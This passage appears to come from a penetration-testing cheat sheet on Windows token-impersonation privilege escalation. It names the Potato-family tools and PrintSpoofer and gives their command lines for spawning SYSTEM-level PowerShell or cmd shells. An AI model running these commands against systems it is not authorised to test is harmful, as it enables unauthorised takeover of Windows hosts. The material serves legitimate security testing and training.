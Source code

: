 Any process holding this privilege can impersonate (but not create) any token for which it is able to gethandle.
You can get a privileged token from a Windows service (DCOM) making it perform an NTLM authentication against the exploit, then execute a process as SYSTEM.
Exploit it with [juicy-potatato](https://github.com/ohpe/juicy-potato) or [RougueWinRM](https://github.com/antonioCoco/RogueWinRM) (need winRM disabled) or [SweetPotato](https://github.com/CCob/SweetPotato) or [PrintSpoofer](https://github.com/itm4n/PrintSpoofer).


Some commands for these tools:

1. PrintSpoofer (My favorite) : ```PrintSpoofer.exe -i -c powershell```

<p align="center">
  <img src="demo.gif">
</p>

2. RogueWinRM : ```RogueWinRM.exe -p C:\windows\system32\cmd.exe``` or ```RogueWinRM.exe -p C:\windows\system32\cmd.exe -a "powershell"```
3. SweetPotato : ```SweetPotato.exe -a whoami```
